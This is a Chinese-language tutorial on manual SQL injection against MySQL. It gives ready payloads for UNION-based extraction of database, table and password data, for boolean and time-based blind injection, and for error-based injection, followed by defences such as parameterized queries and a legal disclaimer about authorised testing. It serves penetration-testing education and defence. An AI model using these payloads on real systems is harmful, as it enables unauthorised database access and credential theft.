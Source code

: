 ```markdown
# 手工SQL注入深度指南

---

## 一、漏洞原理与成因
### 1.1 核心原理
当应用程序未对用户输入进行过滤，直接将原始数据拼接至SQL语句时，攻击者可通过构造特殊字符串篡改SQL逻辑。例如：
```sql
原语句：SELECT * FROM users WHERE username='$user' AND password='$pass'
注入后：SELECT * FROM users WHERE username='admin'-- ' AND password='任意值'
```
通过闭合单引号并添加注释符`--`，绕过密码验证直接获取管理员权限。

### 1.2 常见攻击路径
- **参数拼接漏洞**：URL参数、表单字段、HTTP头等输入点
- **语句篡改手段**：引号闭合、逻辑运算符（AND/OR）、注释符重组
- **数据库交互风险**：可引发数据泄露、权限提升、文件读写等

---

## 二、注入类型判断与验证
### 2.1 类型识别
| 类型       | 测试方法                   | 闭合特征        |
| ---------- | -------------------------- | --------------- |
| **数字型** | `id=1 AND 1=1` → 正常      | 无需引号闭合    |
| **字符型** | `id=1'` → 报错             | 需闭合单/双引号 |
| **搜索型** | `keyword=test%' OR 1=1-- ` | 需处理%和引号   |

### 2.2 验证方法
1. **基础验证**（以字符型为例）：
   ```sql
   id=1' --+ → 恢复正常
   id=1' AND SLEEP(5)-- → 观察延迟响应
   ```
2. **报错注入触发**：
   ```sql
   id=1' AND UpdateXML(1,CONCAT(0x7e,(SELECT @@version)),1)-- 
   ```

---

## 三、手工注入全流程（MySQL示例）
### 3.1 确定字段数
```sql
ORDER BY 5-- → 正常 → 继续测试
ORDER BY 6-- → 报错 → 确认字段数=5
```

### 3.2 联合查询定位回显点
```sql
UNION SELECT null,2,3,4,5-- → 页面显示2,3,4为有效回显位
```
> **注意**：部分数据库要求联合查询字段类型匹配，建议使用`null`占位

### 3.3 信息收集阶段
1. **基础信息获取**：
   ```sql
   UNION SELECT 1,@@version,user(),database(),5-- 
   ```
2. **暴库暴表**：
   ```sql
   -- 获取所有数据库
   UNION SELECT 1,GROUP_CONCAT(SCHEMA_NAME),3,4,5 
   FROM information_schema.SCHEMATA-- 
   
   -- 获取指定库表名
   UNION SELECT 1,GROUP_CONCAT(table_name),3,4,5 
   FROM information_schema.TABLES 
   WHERE table_schema='target_db'-- 
   ```

### 3.4 数据提取
```sql
UNION SELECT 1,username,password,4,5 FROM users LIMIT 0,1-- 
```

---

## 四、高级注入技术
### 4.1 布尔盲注
```sql
?id=1' AND ASCII(SUBSTR((SELECT password FROM users LIMIT 0,1),1,1))=97-- 
```
- 通过页面状态（200/500）逐字符爆破

### 4.2 时间盲注
```sql
?id=1' IF(ASCII(SUBSTR(database(),1,1))=115,SLEEP(5),0)-- 
```
- 基于响应时间判断字符ASCII值

### 4.3 报错注入函数
| 函数             | 示例                                                         |
| ---------------- | ------------------------------------------------------------ |
| **UpdateXML**    | `AND UpdateXML(1,CONCAT(0x7e,(SELECT @@datadir)),1)`         |
| **ExtractValue** | `AND ExtractValue(1,CONCAT(0x7e,(SELECT GROUP_CONCAT(table_name))))` |
| **Floor+Rand**   | `AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(user(),FLOOR(RAND(0)*2))x FROM information_schema.TABLES GROUP BY x)a)` |

---

## 五、防御方案
### 5.1 开发防护
1. **参数化查询**（强制类型绑定）：
   ```java
   PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE id=?");
   stmt.setInt(1, userId); // Java示例
   ```
2. **输入过滤策略**：
   - 白名单验证（数字型参数强制转换）
   - 过滤特殊字符：`' " ; -- /*`等

### 5.2 运维加固
1. **权限最小化**：
   - 禁用数据库`FILE`、`EXECUTE`等高危权限
2. **错误处理**：
   - 关闭详细报错（PHP设置`display_errors=off`）
   - 自定义错误页面

---

## 六、工具链辅助
| 工具名称       | 用途                   | 参考来源 |
| -------------- | ---------------------- | -------- |
| **SQLMap**     | 自动化检测与利用       |          |
| **Burp Suite** | 拦截修改请求测试注入点 |          |
| **HackBar**    | 浏览器快速构造Payload  |          |

> **法律声明**：根据《网络安全法》第五十九条，未经授权的渗透测试属违法行为，本指南仅限授权测试使用。

---

### 引用来源
: 博客园-手工注入流程  
: 报错注入函数原理  
: 新手向注入总结  
: SQL注入基础篇  
: 手工注入实战案例  
: SQL注入百科解析  
: 注入类型分类详解  
: 防御方案与实战技巧
```